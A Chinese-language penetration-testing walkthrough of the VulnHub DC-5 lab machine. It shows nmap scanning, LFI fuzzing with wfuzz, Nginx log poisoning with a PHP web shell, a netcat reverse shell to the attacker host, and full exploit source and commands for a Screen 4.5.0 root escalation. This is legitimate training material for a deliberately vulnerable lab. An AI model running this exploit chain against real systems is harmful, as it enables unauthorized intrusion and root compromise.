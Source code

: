 # DC 5

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-5,314/

## 知识点

## 信息收集

```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.142
```
![](./img/vulnhub-dc5-1.png)

## 漏洞利用

有用户交互的地方 contact.php，提交后跳转到 thankyou.php 页面

![](./img/vulnhub-dc5-2.png)

这里可能存在文件包含漏洞(footer.php)，尝试用wfuzz工具爆破参数

- LFI Payload字典：https://github.com/ffffffff0x/AboutSecurity/blob/master/Payload/LFI/Fuzz_Linux.txt

- LFI 参数字典：https://github.com/ffffffff0x/AboutSecurity/blob/master/Dic/Web/api_param/Fuzz_LFI.txt

```bash
wfuzz -w /pentest/AboutSecurity/Dic/Web/api_param/Fuzz_LFI.txt -w /pentest/AboutSecurity/Payload/LFI/Fuzz_Linux.txt -u http://10.30.0.142/thankyou.phpFUZZFUZ2Z --hh 851
```
![](./img/vulnhub-dc5-3.png)

得到file参数,说明完整地址如下：

```
http://10.30.0.142/thankyou.php?file=footer.php
view-source:http://10.30.0.142/thankyou.php?file=/var/log/nginx/access.log
```

![](./img/vulnhub-dc5-4.png)

可以看到，根据Nginx服务的特征，我们在网站上的所有操作都将会被写入日志文件log内，可以利用这个日志文件getshell

尝试写入phpinfo文件

![](./img/vulnhub-dc5-5.png)

尝试反弹shell
```bash
<?php system($_GET['cmd']) ?>
nc -nlvp 4444
# 接着访问 http://10.30.0.142/thankyou.php?file=/var/log/nginx/access.log&cmd=nc 10.30.0.81 4444 -e /bin/bash
```
![](./img/vulnhub-dc5-6.png)

可见反弹成功，接下来就是提权操作

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
find / -perm -u=s 2>/dev/null
```

![](./img/vulnhub-dc5-7.png)

```bash
searchsploit -w screen 4.5.0
```

- https://www.exploit-db.com/exploits/41154

首先kali运行如下
```sh
tee libhax.c <<-'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

tee rootshell.c <<-'EOF'
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c
gcc -o ./rootshell ./rootshell.c
```

把编译好的 libhax.so 和 rootshell 从 kali 传给 靶机

```bash
python -m SimpleHTTPServer 8080 # kali

# 靶机
cd /tmp
wget 10.30.0.81:8080/libhax.so;wget 10.30.0.81:8080/rootshell

# 运行poc
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
whoami
```

至此提权成功


## 参考链接

- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/cf4d99
- http://www.kxsy.work/2021/08/13/shen-tou-dc-5/
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC5-WalkThrough.md